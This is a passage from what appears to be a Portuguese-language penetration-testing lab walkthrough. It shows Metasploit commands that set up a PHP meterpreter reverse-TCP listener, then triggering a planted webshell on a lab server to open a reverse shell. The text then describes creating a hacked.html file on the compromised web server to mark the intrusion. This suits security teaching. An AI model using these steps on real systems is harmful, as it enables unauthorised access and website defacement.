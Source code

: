 ```bash
msf6 > use exploit/multi/handler
msf6 > set payload php/meterpreter/reverse_tcp
msf6 > set lhost 192.168.100.11
msf6 > set lport 5555
msf6 > exploit

```

![exploit sendo ativo](./lab-n-5.png)

No browser clique no link: 
-   http://192.168.10.11/dav/webshell.php

Que vimos anteriornetne, e este abrirá o tunel reverso apra a maquina
digitando sysinfo aparecerá informacoes sobre o servidor. 
Entraremos no shell do servidor invadido, e criaremos um arquivo hacked.html no servidor web... para marcar a nossa presença.
